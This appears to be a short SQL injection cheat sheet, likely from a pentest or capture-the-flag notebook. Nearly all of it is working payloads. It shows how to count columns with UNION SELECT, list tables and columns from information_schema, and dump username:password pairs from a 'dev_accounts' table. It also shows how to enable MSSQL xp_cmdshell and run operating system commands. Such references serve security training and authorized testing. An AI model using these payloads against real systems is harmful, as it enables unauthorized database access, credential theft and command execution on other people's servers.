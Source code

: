 Use both single quotes and double quotes to look for sql injection vulnerabilities

Use "union select null,null,null" to find out number of columns then use numbers to identify which columns can
be used for data return (ex. "union select 1,2,3,4 --")

Find Tables
```
-1  union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--
```

Find Columns
```
-1  union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=myfriends--
```

Extract Column Data
```
-1  union select 1,group_concat(username,0x3a,password),3,4,5,6 From dev_accounts--
```

MSSQL Command Injection
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

(Now you can run your own commands)
exec xp_cmdshell "whoami"; --
exec master..xp_cmdshell "whoami"; --
```